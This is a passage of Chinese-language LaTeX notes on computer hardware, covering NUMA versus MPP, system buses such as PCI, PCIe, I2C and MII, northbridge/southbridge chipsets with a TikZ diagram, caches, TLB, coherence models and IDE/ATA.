但是MPP服务器需要一种复杂的机制来调度和平衡各个节点的负载和并行处理过程。目前一些基于MPP技术的服务器往往通过系统级软件(如数据库)来屏蔽这种复杂性。举例来说,NCR的Teradata就是基于MPP技术的一个关系数据库软件,基于此数据库来开发应用时,不管后台服务器由多少个节点组成,开发人员所面对的都是同一个数据库系统,而不需要考虑如何调度其中某几个节点的负载。


\subsection{NUMA与MPP的区别}
从架构来看,NUMA与MPP具有许多相似之处:它们都由多个节点组成,每个节点都具有自己的CPU、内存、I/O,节点之间都可以通过节点互联机制进行信息交互。那么它们的区别在哪里?


首先是节点互联机制不同,NUMA的节点互联机制是在同一个物理服务器内部实现的,当某个CPU需要进行远地内存访问时,它必须等待,这也是NUMA服务器无法实现CPU增
加时性能线性扩展的主要原因。而MPP的节点互联机制是在不同的SMP服务器外部通过I/O 实现的,每个节点只访问本地内存和存储,节点之间的信息交互与节点本身的处理是并行进行的。因此MPP在增加节点时性能基本上可以实现线性扩展。

其次是内存访问机制不同。在NUMA服务器内部,任何一个CPU可以访问整个系统的内存,但远地访问的性能远远低于本地内存访问,因此在开发应用程序时应该尽量避免远地内存访问。在MPP服务器中,每个节点只访问本地内存,不存在远地内存访问的问题。


哪种服务器更加适应数据仓库环境?哪种服务器更加适应OLTP系统?
这需要从负载特征入手。众所周知,典型的数据仓库环境具有大量复杂的数据处理和综合分析,要求系统具有很高的I/O处理能力,并且存储系统需要提供足够的I/O带宽与之匹配。而一个典型的OLTP系统则以联机事务处理为主,每个交易所涉及的数据不多,要求系统具有很高的事务处理能力,能够在单位时间里处理尽量多的交易。显然这两种应用环境的负载特征完全不同。 

从NUMA架构来看,它可以在一个物理服务器内集成许多CPU,使系统具有较高的事务处理能力,由于远地内存访问时延远长于本地内存访问,因此需要尽量减少不同CPU模块之间的数据交互。显然,NUMA架构更适用于OLTP事务处理环境,当用于数据仓库环境时,由于大量复杂的数据处理必然导致大量的数据交互,将使CPU的利用率大大降低。

相对而言,MPP服务器架构的并行处理能力更优越,更适合于复杂的数据综合分析与处理环境。当然,它需要借助于支持MPP技术的关系数据库系统来屏蔽节点之间负载平衡与调度的复杂性。另外,这种并行处理能力也与节点互联网络有很大的关系。显然,适应于数据仓库环境的MPP服务器,其节点互联网络的I/O性能应该非常突出,才能充分发挥整个系统的性能。 










%!Mode:: "TeX:UTF-8"
\section{系统总线} 

\subsection{PCI}
外设互联标准(或称个人电脑接口,Personal Computer Interface),实际应用中简称为PCI(Peripheral Component Interconnect),是一种连接电子计算机主板和外部设备的总线标准。一般PCI设备可分为以下两种形式:
直接布放在主板上的集成电路,在 PCI 规范中称作“平面设备”(planar device);或者
安装在插槽上的扩展卡。
PCI bus常见于现代的个人计算机中,并已取代了ISA和VESA 局部总线,成为了标准扩展总线。PCI 总线亦常见于其他电子计算机类型中。PCI总线最终将被PCI Express和其他更先进的技术取代,这些技术现在已经被用于最新款的电子计算机中。
PCI 规范规定了该总线的物理尺寸(包括线宽)、电气特性、总线时序和协议。该规范可从美国PCI-SIG协会购得。
常见的PCI卡包括网卡、声卡、调制解调器、电视卡和磁盘控制器,还有USB和串口等端口。原本显卡通常也是PCI设备,但很快其带宽已不足以支持显卡的性能。PCI显卡现在仅用在需要额外的外接显示器或主板上没有AGP和PCI Express槽的情况。

\subsection{PCI-E}
PCI Express,简称PCI-E,是电脑总线PCI的一种,它沿用了现有的PCI编程概念及通讯标准,但建基于更快的串行通信系统。英特尔是该接口的主要支援者。PCIe仅应用于内部互连。由于PCIe是基于现有的PCI系统,只需修改物理层而无须修改软件就可将现有PCI系统转换为PCIe。PCIe拥有更快的速率,以取代几乎全部现有的内部总线(包括AGP和PCI)。英特尔希望将来能用一个PCIe控制器和所有外部设备交流,取代现有的南桥/北桥方案。

除了这些,PCIe设备能够支援热拔插以及热交换特性,支援的三种电压分别为+3.3V、3.3Vaux以及+12V。考虑到现在显卡功耗的日益增加,PCIe而后在规范中改善了直接从插槽中取电的功率限制,16x的最大提供功率达到了75W[1],比AGP 8X接口有了很大的提升。基本可以满足当时(2004年)中高阶显卡的需求。这一点可以从AGP、PCIe两个不同版本的6600GT显卡上就能明显地看到,后者并不需要外接电源。PCIe只是南桥的扩展总线,它与操作系统无关,所以也保证了它与原有PCI的兼容性,也就是说在很长一段时间内在主板上PCIe接口将和PCI接口共存,这也给用户的升级带来了方便。由此可见,PCIe最大的意义在于它的通用性,不仅可以让它用于南桥和其他设备的连接,也可以延伸到芯片组间的连接,甚至也可以用于连接图形芯片,这样,整个I/O系统重新统一起来,将更进一步简化计算机系统,增加计算机的可移植性和模块化。


\subsection{AGP}
AGP,全称为加速图像处理端口(Accelerated Graphics Port),是电脑主板上的一种高速点对点传输通道,供显卡使用,主要应用在三维电脑图形的加速上。AGP是在1997年由Intel提出,是从PCI标准上创建起来,是一种显卡专用接口。推出原因是为了消除PCI在处理3D图形时的瓶颈。AGP通常会被视为电脑总线的一种,但这样的分法严格来说是错误的;因为一组总线可容许多个设备共用,而AGP却不是。AGP不能多个插槽共用一组总线。一些主板设有多条独立的AGP插槽,现时AGP已基本被PCI Express所取代。


\subsection{LPC}
LPC总线,原名叫Low pin count Bus,是在IBM PC兼容机中用于把低带宽设备和“老旧”连接到CPU上。那些常见低速设备有:BIOS,串口,并口,PS/2的键盘和鼠标,软盘控制器,比较新的设备有可信平台模块。LPC总线通常和主板上的南桥物理相连,南桥在IBM PC AT平台上通常连接了一系列的“老旧”设备,例如两个可编程中断控制器, 可编程计时器和两个 ISA DMA 控制器。 LPC总线是Intel在1998时作为工业标准架构体系(ISA)的替代品引入,它与ISA在软件层面是类似的,尽管在物理层面是有着巨大不同的,ISA是16比特宽,8.33 MHz的总线,而它是4比特宽,有着四倍频率(33.3 MHz)的总线。 LPC总线最大的优点是只需要7个信号,在拥挤的现代主板上是很容易布局的。


\subsection{SPI}
SPI是很多术语的缩写。包括:
\subsubsection{serial peripheral interface}
序列周边接口(Serial Peripheral Interface Bus,SPI),类似I²C,是一种4线同步序列资料协定,适用于可携式装置平台系统,但使用率较I²C少。序列周边接口一般是4线,有时亦可为3线,有别于I²C的2线,以及1-Wire。

The Serial Peripheral Interface Bus or SPI (pronounced as either ess-pee-eye, spy or simply S.P.I) bus is a synchronous serial data link standard, named by Motorola, that operates in full duplex mode. Devices communicate in master/slave mode where the master device initiates the data frame. Multiple slave devices are allowed with individual slave select (chip select) lines. Sometimes SPI is called a four-wire serial bus, contrasting with three-, two-, and one-wire serial buses.
\subsubsection{System Packet Interface}
The System Packet Interface family of Interoperability Agreements from the Optical Internetworking Forum specify chip-to-chip, channelized, packet interfaces commonly used in synchronous optical networking and ethernet applications. A typical application of such a packet level interface is between a framer (for optical network) or a MAC (for IP network) and a network processor. Another application of this interface might be between a packet processor ASIC and a traffic manager device.

SPI-4.2 is a version of the System Packet Interface published by the Optical Internetworking Forum. It was designed to be used in systems that support OC-192 SONET interfaces and is sometimes used in 10 Gigabit Ethernet based systems.
SPI-4 is an interface for packet and cell transfer between a physical layer (PHY) device and a link layer device, for aggregate bandwidths of OC-192 Asynchronous Transfer Mode(ATM) and Packet over SONET/SDH (POS), as well as 10 Gigabit Ethernet applications.
A typical application of SPI-4.2 is to connect a framer device to a network processor. It has been widely adopted by the high speed networking marketplace.
The clocking is Source-synchronous and operates around 700 MHz. Implementations of SPI-4.2 have been produced which allow somewhat higher clock rates. This is important when overhead bytes are added to incoming packets.




\subsection{I2C}
I²C(Inter-Integrated Circuit)是内部整合电路的称呼,是一种串行通讯总线,使用多主从架构,由飞利浦公司在1980年代为了让主板、嵌入式系统或手机用以连接低速周边装置而发展。I²C的正确读法为``I-squared-C'' ,而``I-two-C''则是另一种错误但被广泛使用的读法,在中国则多以``I方C''称之。截至2006年11月1日为止,使用I²C协定不需要为其专利付费,但制造商仍然需要付费以获得I²C从属装置位址。


原始的I²C系统是在1980年代所建立的一种简单的内部总线系统,当时主要的用途在于控制由飞利浦所生产的芯片。
1992年完成了最初的标准版本释出,新增了传输速率为400 kbit/s的快速模式及长度为10位元的寻址模式可容纳最多1008个节点。1998年释出了2.0版,新增了传输速率为3.4Mbit/s的高速模式并为了节省能源而减少了电压及电流的需求。2.1版则在2001年完成,这是一个对2.0版做一些小修正,version 3.0, 2007年同时也是目前的最新版本。

在Linux中,I²C已经列入了核心模组的支援了,更进一步的说明可以参考核心相关的文件及位于/usr/include/linux/i2c.h 的这个标头档。OpenBSD则在最近的更新中加入了I²C的架构(framework)以支援一些常见的主控端控制器及感应器。

\subsection{UEXT}
Universal EXTension (UEXT) is a connector layout which includes power and three serials buses: Asynchronous, I2C, SPI. The connector layout was specified by Olimex Ltd and declared an open-project that is royalty-free.

\subsection{MII}
MII(Media Independent Interface,媒体独立接口),是与100Mbps的Ethernet PHY chip沟通时所使用的接口。

Being media independent means that different types of PHY devices for connecting to different media (i.e. Twisted pair copper, fiber optic, etc.) can be used without redesigning or replacing the MAC hardware. Thus any MAC may be used with any PHY, independent of the network signal transmission media.The MII can be used to connect a MAC to an external PHY using a pluggable connector, or direct to a PHY chip which is on the same printed circuit board.On a PC the CNR connector Type B carries MII bus interface signals.The MDIO Serial Management Interface (SMI) (see MDIO) is used to transfer management information between MAC and PHY.

Reduced Media Independent Interface (RMII) is a standard that addresses the connection of Ethernet physical layer transceivers (PHY) to Ethernet switches or the MAC portion of an end-device's Ethernet interface. It reduces the number of signals/pins required for connecting to the PHY from 16 (for an MII-compliant interface) to between 6 and 10. RMII is capable of supporting 10 and 100 Mbit/s; even 1 Gbit/s is possible, higher gigabit interfaces need a wider interface.

An Ethernet interface normally consists of 4 major parts: The MAC (Media Access Controller), the PHY (PHYsical Interface or transceiver), the magnetics, and the connector.

RMII is one of the possible interfaces between the MAC and PHY; others include MII and SNI, with additional wider interfaces (including XAUI, GBIC, SFP, SFF, XFP, and XFI) for gigabit and faster Ethernet links.

Gigabit Media Independent Interface (GMII) is an interface between the Media Access Control (MAC) device and the physical layer (PHY). The interface defines speeds up to 1000 Mbit/s.

RGMII uses half the number of data pins as used in the GMII interface. This reduction is achieved by clocking data on both the rising and falling edges of the clock in 1000 Mbit/s operation, and by eliminating non-essential signals.

The Serial Gigabit Media Independent Interface (SGMII) is a variant of MII, a standard interface used to connect an Ethernet MAC-block to a PHY. It is used for Gigabit Ethernet but can also carry 10/100 MBit Ethernet.

10 Gigabit Media Independent Interface (XGMII) is a standard defined in IEEE 802.3 for connecting full duplex 10 Gigabit Ethernet (10GbE) ports to each other and to other electronic devices on a printed circuit board.

XAUI是一个介于MAC到PHY之间电脑总线XGMII(10.0 Gbit/s)的延伸标准,XAUI发音``zowie'',与意味十倍的罗马数字 X 关联,是“附件单位接口”的起始。
XAUI是XGMII的延伸,XAUI位于MAC末端的XGXS、和PHY末端的XGXS之间。XAUI延伸了XGMII的操作长度并减少了信号接口的数目。应用范围包括延伸MAC和PHY模组之间的实体分隔以10.0 Gbit/s 以太系统分散横跨电路板。

The XGMII Extender, which is composed of an XGXS(The 10 Gigabit Ethernet Extended Sublayer) at the MAC end, an XGXS at the PHY end and a XAUI between them, is to extend the operational distance of the XGMII and to reduce the number of interface signals. Applications include extending the physical separation possible between MAC and PHY components in a 10 Gigabit Ethernet system distributed across a circuit board.


在10Mbps 以太网上,对应的是AUI, Attachment Unit Interface。

The MII design has been extended to support reduced signals and increases speeds. Current variants are Reduced Media Independent Interface, Gigabit Media Independent Interface, Reduced Gigabit Media Independent Interface, Serial Gigabit Media Independent Interface and 10 Gigabit Media Independent Interface.



























%!Mode:: "TeX:UTF-8"

\section{PC芯片组}
芯片组(chipset, PC chipset, or chip set)是一组共同工作的集成电路(“芯片”),并作为一个产品销售。它负责将电脑的核心——微处理器和机器的其他部分相连接,是决定主板级别的重要部件。以往,芯片组由多颗芯片组成,慢慢的简化为两颗芯片。

在计算机领域,“芯片组”术语通常是特指计算机主板或扩展卡上的芯片。当讨论基于英特尔的奔腾级处理器的个人电脑时,芯片组一词通常指两个主要的主板芯片组:北桥和南桥。芯片组的制造商可以,通常也是独立于主板的制造商。比如PC主板芯片组包括NVIDIA的nForce芯片组和威盛电子公司的KT880,都是为AMD处理器开发的,或英特尔许多芯片组。


\subsection{南北桥结构}

北桥(英语:Northbridge)是基于Intel处理器的个人电脑主板芯片组两枚芯片中的一枚,北桥设计用来处理高速信号,通常处理中央处理器、随机存取存储器、AGP或PCI Express的端口,还有与南桥之间的通信。


\tikzset{ box/.style={
rectangle, minimum width=1.3cm,very thick, draw=gray!50!black!50, text centered,
text width=0.2\textwidth, top color=white, bottom color=gray!50!black!20},
diamondbox/.style={diamond, 
draw=gray!50!black!, top color=white, bottom color=gray!50!black!10,
minimum width=3cm, minimum height=1.5cm, very thick, inner sep=0pt, text centered},
ellipbox/.style={ellipse,minimum width=1.3cm, minimum height=.8cm, draw=gray!50!black!, very thick, text width=0.07\textwidth, inner sep=0pt},
every node/.style={text badly centered, font=\footnotesize}
}

%自定义命令:用于流程图判断语句
\newcommand{\abovelabel}[1]{node[midway, above, text width=20mm]{#1}}
\newcommand{\rightlabel}[1]{node[midway, right]{#1}}


\begin{figure}[ht]
    \centering
    \begin{tikzpicture}
	\matrix[row sep=8mm, column sep=30mm]
	{
            &\node[box](cpu){CPU};&\node[box](cache){高速缓存};\\
            \node[box](graphic card){显卡槽};&\node[box](north){北桥};&\node[box](mem){内存};\\
            \node(usb){USB设备};&\node(south1){};&\node(ide){IDE硬盘};\\
            \node(isa){ISA设备(过时)};&\node(south2){};&\node(sata){SATA硬盘};\\
            \node(pci slots){PCI槽};&\node(south3){};&\node(onboard graph){Onboard显卡控制器};\\
            \node(phy){以太网};&\node(south4){};&\node(audio){声卡};\\
            \node(cmos){CMOS内存};&\node(south5){};&\node[box](flash rom){Flash Rom};\\
            &\node[box](super io){Super I/O};\\
	};

	\begin{scope}[every path/.style={draw, thick}]
            \path (cpu) -- (north) \rightlabel{FSB}; 
            \path (cpu) -- (cache) \abovelabel{BSB}; 
            \path (graphic card) -- (north) \abovelabel{高速图形总线(PCI-E或AGP)} -- (mem) \abovelabel{内存总线}; 
            \path (north) -- (south1) \rightlabel{桥间总线}; 
	    \path (usb) -- (south1) \abovelabel{USB总线}-- (ide) \abovelabel{IDE总线};
	    \path (isa) -- (south2) \abovelabel{ISA总线}-- (sata) \abovelabel{SATA总线};
	    \path (pci slots) -- (south3) \abovelabel{PCI总线}-- (onboard graph) \abovelabel{PCI总线};
	    \path (phy) -- (south4) \abovelabel{PCI等总线}-- (audio) \abovelabel{PCI总线};
	    \path (cmos) -- (south5) \abovelabel{PCI等总线} -- (flash rom) \abovelabel{LPC总线};
	    \path (south5) -- (super io) \rightlabel{LPC总线};
	\end{scope}
        
        \node[box, fit=(south1)(south5)](south){南桥};

    \end{tikzpicture}
    \caption{MainBoard}
\end{figure}

传统的北桥内建内存控制器,让处理器连接前端总线,而处理器和内存总线则跑相同的时脉。随后,芯片组分开处理器和内存总线的频率,让前端总线只代表处理器和北桥之间的通道。

北桥留下来的只剩下AGP或PCI Express控制器和与南桥通信,有时北桥会和南桥整合在同颗芯片中,有一些北桥则连绘图处理器也整合进去,而另外支援AGP或PCI Express接口。整合式北桥会侦测到附加在AGP插槽上有安装显卡,并停止其绘图处理器功能,但有些北桥可以允许同时使用整合式显卡和安装外加显卡,作为多显示输出。

南桥设计用来处理低速信号,通过北桥与CPU联系。各芯片组厂商的南桥名称都有所不同,例如英特尔称之为ICH,NVIDIA的称为MCP,ATI的称为IXP/SB。

南桥包含大多数周边设备接口、多媒体控制器和通讯接口功能。例如PCI控制器、ATA控制器、USB控制器、网络控制器、音效控制器。各世代的南桥效能大多雷同,但偶然听到某些南桥会有较差的Serial ATA或USB效能。目前所有的南桥制造商都提供SATA磁盘阵列功能,NVIDIA则允许SATA和ATA硬盘机混合组成磁盘阵列。最新的英特尔Matrix RAID技术,让RAID-0和RAID-1组态可以在两颗硬盘机中同时使用。

大多数南桥都能直接连接Gigabit Lan PHY(实体层芯片,用来处理连接讯号),高阶的南桥通常拥有两组Gigabit Lan PHY,不过中阶的主板则只支援一组。而NVIDIA最新的南桥则支援带宽合并、封包排序和TCP/IP加速等高级网络卡功能。现在大部份高级南桥则支援Azalia高传真音效,借着编码芯片支援7.1声道音效。

大多数南桥都支援PCI Express Hub,但主板制造商通常采用北桥所提供的PCI Express Lane。

存放BIOS配置信息的存储部件为CMOS内存,或称非易失性BIOS内存。传统上,BIOS信息存放于易失性的CMOS SRAM中,断点后借助电池的支持来保证信息不丢失。目前BIOS信息存放于EEPROM或flash中,电池只用于维持时钟硬件(RTC, real-time clocking)。CMOS RAM和电池都是南桥的一部分。

Super I/O可外接串口、并口(主要用于打印机)、PS/2鼠标和键盘、软盘、温度传感器和风扇转速监测等。Super I/O始于20世纪80年代,早期为附加芯片,后集成于主板。Super I/O早期用ISA总线同CPU通信。随着PCI总线的普及,Super I/O甚至成为主板上集成ISA总线的主要理由。后来Super I/O通过LPC(Low Pin Count)总线同CPU通信。Super I/O替主板实现了许多功能,简化主板设计,节约了成本。

Intel Hub Architecture(IHA)可用来取代南桥与北桥,IHA芯片组亦分成二大项:Graphics and Memory Controller Hub (GMCH)与I/O Controller Hub (ICH)。

随着Soc(System-on-a-Chip)技术的流行,现代设备逐渐将北桥集成到CPU冲模(die)上,而将南桥直接与CPU相连,如Intel的Sandy Bridge和AMD Fusion处理器(均发布于2011年)。预期于2013年发布的Intel Haswell将会把南桥与CPU集成到同一盒(package)中。

\subsection{单芯片芯片组}

AMD在Athlon 64时代将内存总线整个拿掉,直接设计到处理器中,让北桥的功能只是支援外加显卡接口,例如AGP和PCI Express x16。由于北桥的重要性降低,有厂商索性将南北桥合并,成为单一芯片组,例如NVIDIA的nForce 4。这样可以减低芯片组的制造成本,但电脑的效能会降低。

单芯片芯片组已推出多年,例如SiS 730。但直到最近nForce 4的出现才逐渐流行。现在的单芯片芯片组,不像以往般复杂,因Athlon 64已内建内存控制器,取代了北桥的功能。纵使芯片组变成单芯片,习惯上亦沿用旧名称。

\subsection{总线}

前端总线(FSB,Front Side Bus)是指中央处理器数据总线的专门术语,此总线负责中央处理器和北桥芯片间的数据传递。某些带有L2和L3缓存(Cache)的计算机,通过后端总线(Back Side Bus)实现这些缓存和中央处理器的连接,而此总线的数据传输速率总是高于前端总线。

大多数现代总线(GTL+和EV6)是CPU和芯片组的连接主干。芯片组(通常由南桥和北桥组成)是和系统中其他总线的连接节点。PCI、AGP和内存总线均和芯片组相连,以使设备间数据能相互传送。

这些第二级系统总线的运行速率取决于前端总线的速率。总之,高的前端总线速率意味着计算机的高处理性能。

早期连接南北桥的总线为PCI总线,现在主要是DMI(Intel)和UMI(AMD)。

在PC发展初期,由于处理器速度不高,大部份元件的时脉均保持同步,直至80486时代,在处理器制程持续进步下,处理器速度也加速成长,当时由于其他外部元件受电气结构所限,而无法跟进成长,因此Intel首次于处理器时脉中加入倍频设计,首颗处理器为Intel 80486DX2,外部传输时脉是处理器的一半,及后处理器成长速度仍远超过外部元件,两者速度差距越来越大。直至Pentium III时代,处理器时脉已超越1GHz,但外部传输时脉仍仅有133MHz。

正常来说,外频速度越高代表处理器在同一周期下可读写越多的数据,因此,外频速度很可能会变成系统效能上的瓶颈,为解决处理器带宽不足的问题,Intel于Pentium 4时代加入Quad Pumped Bus架构,使其在同一周期内可传送4笔数据,此举令外部传输时脉不变下,传输效率却可提升四倍。

前端总线(FSB、外频)的速度指的是CPU和北桥芯片间总线的速度。而系统总线(BusSpeed)的概念是建立在数位脉冲信号震荡速度基础之上的,也就是说,100MHz系统总线(BusSpeed)特指数位脉冲信号在每秒钟震荡一百万次,它更多的影响了PCI及其他总线的频率。之所以前端总线(FSB、外频)与系统总线(BusSpeed)这两个概念容易混淆,主要的原因是在以前的很长一段时间里,前端总线(FSB、外频)与系统总线(BusSpeed)是相同速率,因此往往直接称系统总线(BusSpeed)为外频,最终造成这样的误会。

中央处理器的时脉速度(简称内频)由系统总线速率(bus speed)乘上倍频系数决定。例如,一个时脉速度为 700MHz 的处理器,可能运行于 100MHz 的系统总线上。这说明处理器内的时钟倍频器的倍率设置为7,即中央处理器被设定为以7倍于系统总线的速率运行:100 MHz×7 = 700 MHz。通过改变倍频系数或系统总线速率,可以得到不同的时脉速度。















%!Mode:: "TeX:UTF-8"
 
\section{缓存}
\cite{wikipedia}:

\subsection{CPU高速缓存结构}
m位地址,有$m=t+s+b$, 寻址空间$M=2^m$, 缓存容量$C=S \times E \times B=2^s E 2^b$, $C<M$则$E < 2^t$.

直接相连:$E=1$.
全相连:$S=1$.


\begin{figure}[ht]
	\begin{center}
	
\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/cacheBus.png}
		
\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/cache.png}
	\caption{高速缓存通用结构}
	\label{fig:cacheMemStructure}
	\end{center}
\end{figure}


\subsection{TLB}
分页表是一种数据结构,用于计算机操作系统中的虚拟内存系统,存储了虚拟地址到物理地址间的映射。虚拟地址在访问进程中是唯一的,物理地址在硬件中是唯一的。比如RAM。CPU的内存管理单元(memory management unit MMU)存储最近用过的映射缓存,来自操作系统分页表。被称为转译后备缓冲器(translation lookaside buffer, TLB)。TLB是一个索引缓存。

转译后备缓冲器(英文:Translation Lookaside Buffer,首字母缩略字:TLB),在中国大陆也被翻译为页表缓存、转址旁路缓存,为CPU的一种缓存,由存储器管理单元用于改进虚拟地址到物理地址的转译速度。目前所有的桌面型及服务器型处理器(如 x86)皆使用TLB。TLB具有固定数目的空间槽,用于存放将虚拟地址映射至物理地址的标签页表条目。为典型的内容可寻址存储器(content-addressable memory,首字母缩略字:CAM)。其搜索关键字为虚拟内存地址,其搜索结果为物理地址。如果请求的虚拟地址在TLB中存在,CAM 将给出一个非常快速的匹配结果,之后就可以使用得到的物理地址访问存储器。如果请求的虚拟地址不在 TLB 中,就会使用标签页表进行虚实地址转换,而标签页表的访问速度比TLB慢很多。有些系统允许标签页表被交换到次级存储器,那么虚实地址转换可能要花非常长的时间。

在任务(task)切换时,部分 TLB 条目可能会失效,例如先前运行的进程已访问过一个页面,但是将要执行的进程尚未访问此页面。最简单的策略是清出整个 TLB。

多核系统的每个核都有自己的TLB。与cache不同,TLB不需要核间同步,因为每个核运行的进程有不同的地址映射。


\subsection{缓存一致性}
分布式共享内存(Distributed Shared Memory,DSM)指物理上分布式的内存可以在逻辑上被当做一块内存来访问。这里的共享指的是地址空间的共享。
为维护“内存一致性”(memory coherence),需选择一个“一致性协议”(coherence protocol)来实现一种"一致性模型"(consistency model)。
DSM系统的实例包括OpenSSI,MOSIX,Kerrighed,TreadMarks等。注意同“分布式缓存”区分开。

\begin{quotation}
分布式缓存(Distributed cache)是对传统意义上单点缓存概念的扩展,使得缓存可以跨越多个服务器。
由于主存变得便宜,以及网卡速度的增强,分布式缓存得以变得现实。
分布式缓存的例子包括:Oracle Coherence, Ehcache, Hazelcast, Memcached, SafePeak, Riak, Redis等。
\end{quotation}

在多核系统下也存在内存一致性问题。
如果多核同时访问同一共享内存区,且存在写操作,就可能出现缓存一致性(内存一致性)问题,即某核读到的本地缓存副本不是最新的。
需要引入“内存一致性协议”(memory coherence protocol)来解决这个问题。

一致性的实现方式包括:
\begin{description}
\item[基于目录的实现(Directory-based)]目录维护各缓存间的一致性信息。处理器在将内存值加载到本地cache时时必须先查询目录。
当某一表项被更新时,目录要么标记其失效,要么主动更新所有其他缓存。
\item[Snooping]每一个本地cache监控地址线,如果一个内存更新访问涉及自己所缓存的对象,那么本地缓存的这个副本应被失效。
\end{description}
这些实现机制可用于多核、多处理器缓存,以及分布式共享内存系统。

一致性模型"(consistency model)包括:
\begin{description}
\item[线性一致性(Linearizability)]或严格一致性(Strict consistancy)、原子一致性(Atomic consistancy):任何对一个内存位置X的读操作,将返回最近一次对该内存位置的写操作所写入的值。
\item[顺序一致性(sequential consistency)](并发程序在多处理器上的)任何一次执行结果都相同,就像所有处理器的操作按照某个顺序执行,各个微处理器的操作按照其程序指定的顺序进行。
换句话说,所有的处理器以相同的顺序看到所有的修改。读操作未必能及时得到此前其他处理器对同一数据的写更新。但是各处理器读到的该数据的不同值的顺序是一致的。
\item[释放一致性(Release consistency )]
同步操作被分裂成获得(acquire)和释放(release)操作。
如果某进程的写操作在该进程执行释放之后、在其他进程执行获取之前被看到,则称释放一致性。
释放一致性可以通过两种一致性协议来实现:
一致性操作(coherence actions)可以在退出临界区时完成(渴望释放一致性),也可推迟到下一次进入临界区(懒惰释放一致性)。
\item[因果一致性(Causal consistency )]
因果一致的存储器应遵守以下条件:可能因果相关的写操作应对所有进程可见,且顺序一致。并发写操作在不同机器看来顺序可能是不同的。
如果进程A通知进程B它已更新了一个数据项,那么进程B的后续访问将返回更新后的值,且一次写入将保证取代前一次写入。与进程A无因果关系的进程C的访问遵守一般的最终一致性规则。因果一致性弱于顺序一致性,强于PRAM一致性。
假设进程P1写变量x,然后P2读出x,写入y。这里读出x和写入y之间可能有潜在的因果联系,因为y的计算很可能决定于P2读到的x值(即P1写入的值)。 另一方面,若两进程自然而同时地写两个变量,就没有因果联系。先有读操作之后执行写操作,两个事件就可能有因果联系。相似的,读和提供所读数据的写有因果关系。没有因果关系的操作称为并发的(concurrent)。
\item[PRAM(Piplined RAM)一致性]又称FIFO一致性,几乎等同于处理机一致性(Processor consistency)。
一个进程(处理机)的多个写操作被另一进程按照相同的顺序接收到,如同在流水线中到达一样,但来自多个进程的写操作顺序不定。PRAM一致性很容易实现。
对于双处理器,处理器一致性与顺序一致性是等价的。
\item[Delta一致性]在固定时间Delta之内达到全局一致。
\item[弱一致性]弱一致性有三个属性:a. 对同步变量的访问是顺序一致的;
b. 在所有先前的写操作完成之前,不能访问同步变量;
c. 在先前所有同步变量的访问完成前,不能访问(读或写)数据。
\end{description}













\clearpage
%!Mode:: "TeX:UTF-8"
\section{磁盘控制器技术}


\subsection{IDE与ATA}
IDE(Integrated Drive Electronics)是一种计算机系统接口,主要用于硬盘和CD-ROM,
本意为“把控制器与盘体集成在一起的硬盘”,
与ATA(Advanced Technology Attachment)关系密切。
数年以前PC主机使用的硬盘,大多数都是IDE兼容的,只需用一根电缆将它们与主板或适配器连起来就可以了,而目前主要接口为SATA接口。
一般说来,ATA是一个控制器技术,而IDE是一个匹配它的磁盘驱动器技术,但是两个术语经常可以互用。
ATA是一个花费低而性能适中的接口,主要是针对台式机而设计的,销售的大多数ATA控制器和IDE磁盘都是更高版本的,
称为ATA - 2和ATA - 3,与之匹配的磁盘驱动器称为增强的IDE。


把盘体与控制器集成在一起的做法,减少了硬盘接口的电缆数目与长度,数据传输的可靠性得到了增强,硬盘制造起来变得更容易,
因为厂商不需要再担心自己的硬盘是否与其他厂商生产的控制器兼容,对用户而言,硬盘安装起来也更为方便。
ATA是用传统的40-pin并行数据线连接主板与硬盘的,外部接口速度最大为133MB/s,因为并行线的抗干扰性太差,且排线占空间,不利散热,而逐渐被SATA所取代。
ATA主机控制器芯片差不多集成到每一个生产的系统板,提供连接4个设备的能力。
ATA控制器已经变得非常廉价和常见,但在SATA技术日益发展下,没有ATA的主版已经出现,
